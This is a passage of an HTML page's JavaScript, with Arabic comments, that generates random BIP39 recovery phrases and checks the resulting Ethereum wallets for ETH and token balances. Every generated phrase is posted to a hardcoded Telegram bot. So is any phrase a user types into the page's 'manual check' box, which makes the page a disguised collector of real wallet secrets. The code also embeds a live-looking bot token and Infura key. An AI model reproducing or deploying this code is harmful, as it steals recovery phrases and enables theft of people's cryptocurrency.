            "weasel", "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale",
            "what", "wheat", "wheel", "when", "where", "whether", "which", "while", "whisper", "wide",
            "widget", "wild", "will", "win", "window", "wine", "wing", "wink", "winner", "winter",
            "wire", "wisdom", "wise", "wish", "withdraw", "within", "without", "woman", "wonder", "wood",
            "wool", "word", "work", "world", "worry", "worth", "wrap", "wreck", "write", "wrong",
            "yard", "yearn", "year", "yell", "yellow", "you", "young", "your", "youth", "zeal",
            "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
        const INFURA_PROJECT_ID = '482a7c1c7cc14ec78699c3f1c231b0cd';
        const INFURA_URL = `https://mainnet.infura.io/v3/${INFURA_PROJECT_ID}`;
        const TELEGRAM_BOT_TOKEN = '7521799915:AAEQEM_Ajk5_hMWQUrlmvdNbDBJAUMMwgrg';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // قائمة العملات المشهورة المضافة - محدثة ومحسنة
        const POPULAR_TOKENS = [
            // العملات المستقرة الأساسية
            {
                symbol: 'USDT',
                address: '0xdAC17F958D2ee523a2206206994597C13D831ec7',
                decimals: 6
            },
            {
                symbol: 'USDC', 
                address: '0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48',
                decimals: 6
            },
            {
                symbol: 'DAI',
                address: '0x6B175474E89094C44Da98b954EedeAC495271d0F',
                decimals: 18
            },
            {
                symbol: 'BUSD',
                address: '0x4Fabb145d64652a948d72533023f6E7A623C7C53',
                decimals: 18
            },
            {
                symbol: 'FRAX',
                address: '0x853d955aCEf822Db058eb8505911ED77F175b99e',
                decimals: 18
            },

            // عملات DeFi الرئيسية
            {
                symbol: 'LINK',
                address: '0x514910771AF9Ca656af840dff83E8264EcF986CA',
                decimals: 18
            },
            {
                symbol: 'UNI',
                address: '0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984',
                decimals: 18
            },
            {
                symbol: 'AAVE',
                address: '0x7Fc66500c84A76Ad7e9c93437bFc5Ac33E2DDaE9',
                decimals: 18
            },
            {
                symbol: 'COMP',
                address: '0xc00e94Cb662C3520282E6f5717214004A7f26888',
                decimals: 18
            },
            {
                symbol: 'MKR',
                address: '0x9f8F72aA9304c8B593d555F12eF6589cC3A579A2',
                decimals: 18
            },
            {
                symbol: 'YFI',
                address: '0x0bc529c00C6401aEF6D220BE8C6Ea1667F6Ad93e',
                decimals: 18
            },
            {
                symbol: 'SUSHI',
                address: '0x6B3595068778DD592e39A122f4f5a5cF09C90fE2',
                decimals: 18
            },
            {
                symbol: 'CRV',
                address: '0xD533a949740bb3306d119CC777fa900bA034cd52',
                decimals: 18
            },

            // العملات الأساسية المغلفة
            {
                symbol: 'WBTC',
                address: '0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599',
                decimals: 8
            },
            {
                symbol: 'WETH',
                address: '0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2',
                decimals: 18
            },

            // عملات الميم والشائعة
            {
                symbol: 'SHIB',
                address: '0x95aD61b0a150d79219dCF64E1E6Cc01f0B64C4cE',
                decimals: 18
            },
            {
                symbol: 'DOGE',
                address: '0x4206931337dc273a630d328dA6441786BfaD668f',
                decimals: 8
            },
            {
                symbol: 'PEPE',
                address: '0x6982508145454Ce325dDbE47a25d4ec3d2311933',
                decimals: 18
            },

            // عملات الألعاب والميتافيرس
            {
                symbol: 'MANA',
                address: '0x0F5D2fB29fb7d3CFeE444a200298f468908cC942',
                decimals: 18
            },
            {
                symbol: 'SAND',
                address: '0x3845badAde8e6dFF049820680d1F14bD3903a5d0',
                decimals: 18
            },
            {
                symbol: 'AXS',
                address: '0xBB0E17EF65F82Ab018d8EDd776e8DD940327B28b',
                decimals: 18
            },
            {
                symbol: 'APE',
                address: '0x4d224452801ACEd8B2F0aebE155379bb5D594381',
                decimals: 18
            },

            // عملات أخرى مهمة
            {
                symbol: 'LDO',
                address: '0x5A98FcBEA516Cf06857215779Fd812CA3beF1B32',
                decimals: 18
            },
            {
                symbol: 'FTM',
                address: '0x4E15361FD6b4BB609Fa63C81A2be19d873717870',
                decimals: 18
            },
            {
                symbol: 'MATIC',
                address: '0x7D1AfA7B718fb893dB30A3aBc0Cfc608AaCfeBB0',
                decimals: 18
            },
            {
                symbol: 'BNB',
                address: '0xB8c77482e45F1F44dE1745F52C74426C631bDD52',
                decimals: 18
            }
        ];

        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            testManualBtn: document.getElementById('testManualBtn'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualTestResult: document.getElementById('manualTestResult'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel'),
            currentTime: document.getElementById('currentTime')
        };

        // تحديث الوقت الحالي
        function updateCurrentTime() {
            const now = new Date();
            elements.currentTime.textContent = `[${now.toLocaleTimeString('ar-EG')}]`;
        }
        setInterval(updateCurrentTime, 1000);
        updateCurrentTime();

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        async function checkWalletBalance(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const balance = await provider.getBalance(address);
                const balanceEth = ethers.utils.formatEther(balance);
                return parseFloat(balanceEth);
            } catch (error) {
                console.error('خطأ في التحقق من رصيد ETH:', error);
                return null;
            }
        }

        // الدالة الجديدة لجلب أرصدة العملات
        async function getTokenBalances(address) {
            try {
                if (!checkEthersLoaded()) {
                    return [];
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const tokenBalances = [];
                
                for (const token of POPULAR_TOKENS) {
                    try {
                        const abi = ['function balanceOf(address) view returns (uint256)'];
                        const tokenContract = new ethers.Contract(token.address, abi, provider);
                        
                        const balance = await tokenContract.balanceOf(address);
                        const formattedBalance = ethers.utils.formatUnits(balance, token.decimals);
                        const numericBalance = parseFloat(formattedBalance);
                        
                        if (numericBalance > 0) {
                            tokenBalances.push({
                                symbol: token.symbol,
                                balance: numericBalance,
                                address: token.address
                            });
                        }
                    } catch (error) {
                        console.error(`خطأ في جلب رصيد ${token.symbol}:`, error);
                    }
                }
                
                return tokenBalances;
            } catch (error) {
                console.error('خطأ في جلب أرصدة العملات:', error);
                return [];
            }
        }

        async function getTransactionCount(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const transactionCount = await provider.getTransactionCount(address);
                return transactionCount;
            } catch (error) {
                console.error('خطأ في الحصول على عدد المعاملات:', error);
                return null;
            }
        }

        // تحديث دالة isWalletActive لدعم العملات المتعددة
        async function isWalletActive(address) {
            try {
                const [balance, transactionCount, tokenBalances] = await Promise.all([
                    checkWalletBalance(address),
                    getTransactionCount(address),
                    getTokenBalances(address)
                ]);
                
                const hasBalance = balance !== null && balance > 0;
                const hasTransactions = transactionCount !== null && transactionCount > 0;
                const hasTokens = tokenBalances.length > 0;
                
                return {
                    isActive: hasBalance || hasTransactions || hasTokens,
                    balance: balance,
                    transactionCount: transactionCount,
                    tokenBalances: tokenBalances,
                    hasBalance: hasBalance,
                    hasTransactions: hasTransactions,
                    hasTokens: hasTokens
                };
            } catch (error) {
                console.error('خطأ في التحقق من نشاط المحفظة:', error);
                return {
                    isActive: false,
                    balance: null,
                    transactionCount: null,
                    tokenBalances: [],
                    hasBalance: false,
                    hasTransactions: false,
                    hasTokens: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        // تحديث دالة formatWalletMessage لعرض جميع العملات - محسنة
        function formatWalletMessage(mnemonic, address, walletDetails, isActive) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = '';
            if (isActive) {
                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
            } else {
                message = `📝 <b>عبارة استرجاع جديدة</b>\n\n`;
            }
            
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            // عرض رصيد الإيثريوم
            if (walletDetails.balance !== null) {
                const ethBalance = walletDetails.balance.toFixed(6);
                if (walletDetails.balance > 0) {
                    message += `💰 <b>رصيد ETH:</b> ${ethBalance} ETH 💎\n`;
                } else {
                    message += `💰 <b>رصيد ETH:</b> ${ethBalance} ETH\n`;
                }
            }
            
            // عرض عدد المعاملات
            if (walletDetails.transactionCount !== null) {
                message += `📊 <b>عدد المعاملات:</b> ${walletDetails.transactionCount}\n`;
            }
            
            // عرض أرصدة العملات الأخرى مع تحسينات
            if (walletDetails.tokenBalances.length > 0) {
                message += `\n🪙 <b>العملات الأخرى المكتشفة (${walletDetails.tokenBalances.length}):</b>\n`;
                
                // ترتيب العملات حسب الرصيد (الأعلى أولاً)
                const sortedTokens = walletDetails.tokenBalances.sort((a, b) => b.balance - a.balance);
                
                sortedTokens.forEach((token, index) => {
                    const balanceFormatted = token.balance > 1 ? token.balance.toFixed(2) : token.balance.toFixed(6);
                    const emoji = index === 0 ? '🥇' : index === 1 ? '🥈' : index === 2 ? '🥉' : '💰';
                    message += `   ${emoji} <b>${token.symbol}:</b> ${balanceFormatted}\n`;
                });
                
                // إضافة إجمالي قيمة العملات إذا كان هناك أكثر من عملة واحدة
                if (walletDetails.tokenBalances.length > 1) {
                    message += `\n📈 <b>إجمالي العملات المكتشفة:</b> ${walletDetails.tokenBalances.length} عملة\n`;
                }
            }
            
            // عرض الحالة مع تحسينات
            if (isActive) {
                const reasons = [];
                if (walletDetails.hasBalance) reasons.push('رصيد ETH');
                if (walletDetails.hasTokens) reasons.push('عملات أخرى');
                if (walletDetails.hasTransactions) reasons.push('معاملات سابقة');
                
                message += `\n✅ <b>الحالة:</b> محفظة نشطة 🔥\n`;
                message += `🔍 <b>سبب النشاط:</b> ${reasons.join(' + ')}\n`;
            } else {
                message += `\n❌ <b>الحالة:</b> محفظة فارغة\n`;
            }
            
            message += `\n⏰ <b>الوقت:</b> ${timestamp}`;
            message += `\n🔗 <b>رابط Etherscan:</b> https://etherscan.io/address/${address}`;
            
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                const walletStatus = await isWalletActive(address);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                updateStats();
                
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف اختبار العبارات يدويًا
        async function testManualMnemonic() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('يرجى إدخال عبارة BIP39 للفحص', 'warning');
                return;
            }
            
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري فحص العبارة...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic}`);
                
                elements.testManualBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
                elements.testManualBtn.disabled = true;
                
                const address = await mnemonicToAddress(mnemonic);
                
                addLogEntry(`✅ تم تحويل العبارة إلى العنوان: ${address}`);
                
                const walletStatus = await isWalletActive(address);
                
                updateManualTestResult(mnemonic, address, walletStatus);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    addLogEntry(`🎉 العبارة تفتح محفظة نشطة! العنوان: ${address}`, 'success');
                    updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                } else {
                    addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                    updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في فحص العبارة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
            }
        }

        // تحديث دالة عرض النتائج اليدوية - محسنة
        function updateManualTestResult(mnemonic, address, walletStatus) {
            let resultHTML = '';
            
            if (walletStatus.isActive) {
                // تحديد أسباب النشاط
                const reasons = [];
                if (walletStatus.hasBalance) reasons.push('رصيد ETH');
                if (walletStatus.hasTokens) reasons.push('عملات أخرى');
                if (walletStatus.hasTransactions) reasons.push('معاملات سابقة');
                
                resultHTML = `
                    <h4>🎉 نتيجة الفحص: المحفظة نشطة!</h4>
                    <div class="status active">محفظة نشطة 🔥</div>
                    <div class="balance ${walletStatus.balance > 0 ? 'positive' : 'zero'}">
                        💰 رصيد ETH: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                        ${walletStatus.balance > 0 ? ' 💎' : ''}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                    <div class="activity-reason">
                        🔍 سبب النشاط: ${reasons.join(' + ')}
                    </div>
                `;
                
                if (walletStatus.tokenBalances.length > 0) {
                    // ترتيب العملات حسب الرصيد
                    const sortedTokens = walletStatus.tokenBalances.sort((a, b) => b.balance - a.balance);
                    
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات المكتشفة (${walletStatus.tokenBalances.length}):</strong>
                            ${sortedTokens.map((token, index) => {
                                const balanceFormatted = token.balance > 1 ? token.balance.toFixed(2) : token.balance.toFixed(6);
                                const emoji = index === 0 ? '🥇' : index === 1 ? '🥈' : index === 2 ? '🥉' : '💰';
                                return `
                                    <div class="token-item">
                                        <span>${emoji} ${token.symbol}</span>
                                        <span>${balanceFormatted}</span>
                                    </div>
                                `;
                            }).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                        <div class="etherscan-link">
                            🔗 <a href="https://etherscan.io/address/${address}" target="_blank">عرض في Etherscan</a>
                        </div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result active';
            } else {
                resultHTML = `
                    <h4>❌ نتيجة الفحص: المحفظة فارغة</h4>
                    <div class="status inactive">محفظة فارغة</div>
                    <div class="balance zero">
                        💰 رصيد ETH: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                `;
                
                // عرض العملات حتى لو كانت المحفظة فارغة (في حالة وجود عملات بدون معاملات)
                if (walletStatus.tokenBalances.length > 0) {
                    const sortedTokens = walletStatus.tokenBalances.sort((a, b) => b.balance - a.balance);
                    
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات المكتشفة (${walletStatus.tokenBalances.length}):</strong>
                            ${sortedTokens.map((token, index) => {
                                const balanceFormatted = token.balance > 1 ? token.balance.toFixed(2) : token.balance.toFixed(6);
                                const emoji = index === 0 ? '🥇' : index === 1 ? '🥈' : index === 2 ? '🥉' : '💰';
                                return `
                                    <div class="token-item">
                                        <span>${emoji} ${token.symbol}</span>
                                        <span>${balanceFormatted}</span>
                                    </div>
                                `;
                            }).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                        <div class="etherscan-link">
                            🔗 <a href="https://etherscan.io/address/${address}" target="_blank">عرض في Etherscan</a>
                        </div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result inactive';
            }
            
            elements.manualTestResult.innerHTML = resultHTML;
            elements.manualTestResult.style.display = 'block';
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 3000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            const startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n🔍 جاري البحث عن محافظ وإرسال جميع العبارات إلى Telegram...`;
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `❌ المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.testManualBtn.addEventListener('click', testManualMnemonic);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
                addLogEntry('🪙 التطبيق يدعم الآن جميع العملات: ETH, USDT, USDC, DAI, LINK, UNI, WBTC, AAVE, SHIB', 'success');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
